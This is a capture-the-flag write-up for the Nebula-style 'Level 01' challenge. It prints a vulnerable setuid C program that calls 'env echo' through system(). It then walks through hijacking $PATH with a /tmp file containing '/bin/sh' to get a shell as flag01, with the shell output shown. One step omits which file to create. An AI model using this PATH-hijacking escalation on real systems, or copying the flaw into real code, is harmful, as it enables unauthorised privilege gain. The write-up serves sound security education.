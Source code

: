 # Level 01
There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the `level01` account with the password `level01`. Files for this level can be found in /home/flag01.

## Source code
```c++
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

## Writeup

And write this code inside:

```sh
/bin/sh
```

Now change the `$PATH` variabile adding `/tmp` at the start:

```sh
export PATH=/tmp:$PATH
```

Go to `/home/flag01` directory and run `./flag01` binary to get a shell with flag01 account, verified by writing `id` command:

```sh
level01@nebula:/home/flag01$ ./flag01 
sh-4.2$ id
uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
```

Now we can run `getflag` command:

```sh
sh-4.2$ getflag
You have successfully executed getflag on a target account
```